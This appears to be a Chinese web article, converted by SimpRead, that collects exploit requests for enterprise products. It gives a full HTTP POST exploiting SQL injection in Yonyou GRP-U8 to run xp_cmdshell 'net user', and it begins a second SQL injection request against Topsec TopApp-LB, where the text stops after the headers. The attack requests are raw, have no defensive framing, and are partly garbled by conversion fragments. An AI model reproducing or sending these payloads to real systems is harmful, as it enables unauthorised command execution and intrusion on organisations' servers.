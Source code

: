 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lQ_gaDjMLw22mtzWHd1Z9A)

0. 目录

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iaUGQ0wKQJSdvWh1guMWIxrwv6gkgc22w0CzKZkM3OJ2uprEIZ8Hlz0g/640?wx_fmt=png)

1. 用友 GRP-u8 SQL 注入

POST /Proxy HTTP/1.1

Accept: Accept: */*

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)

Host: host

Content-Length: 357

Connection: Keep-Alive

Cache-Control: no-cache

cVer=9.8.0&dp=<r9packet< span=""></r9packet<>

version="1">XMLAS_DataRe

questProviderName<data< span=""></data<>

format="text">DataSetProviderDataData

>exec xp_cmdshell 'net

user'

2. 天融信 TopApp-LB sql 注入

POST /acc/clsf/report/datasource.php HTTP/1.1

Host:

Connection: close

Accept: text/javascript, text/html, application/xml, text/xml, */*

X-Prototype-Version: 1.6.0.3

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: cors

Sec-Fetch-Dest: empty

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9
